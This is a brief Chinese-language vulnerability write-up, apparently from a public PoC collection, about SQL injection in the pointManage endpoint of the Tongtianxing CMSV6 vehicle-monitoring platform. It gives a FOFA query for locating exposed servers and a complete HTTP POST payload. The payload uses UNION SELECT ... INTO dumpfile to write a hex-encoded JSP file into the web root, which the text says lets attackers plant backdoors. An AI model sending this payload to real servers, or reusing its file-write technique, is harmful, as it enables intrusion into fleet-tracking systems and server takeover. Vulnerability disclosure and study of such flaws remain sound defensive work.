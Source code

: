 ## 通天星CMSV6接口pointManage存在SQL注入

通天星CMSV6车载定位监控平台拥有以位置服务、无线3G/4G视频传输、云存储服务为核心的研发团队，专注于为定位、无线视频终端产品提供平台服务，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。其pointManage存在SQL注入，恶意攻击者利用此漏洞向服务器写入恶意的后门文件，从而获取服务器权限。

## fofa

```
body="/808gps"
```

## poc

```
POST /point_manage/merge HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2882.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Host: ip

id=1&name=1' UNION SELECT%0aNULL, 0x3c25206f75742e7072696e7428227a7a3031306622293b206e6577206a6176612e696f2e46696c65286170706c69636174696f6e2e6765745265616c5061746828726571756573742e676574536572766c657450617468282929292e64656c65746528293b20253e,NULL,NULL,NULL,NULL,NULL,NULL
INTO dumpfile '../../tomcat/webapps/gpsweb/allgods.jsp' FROM user_session a
WHERE '1 '='1 &type=3&map_id=4&install_place=5&check_item=6&create_time=7&update_time=8
```

![image-20240626220451434](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262204554.png)

![image-20240626220720642](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262207750.png)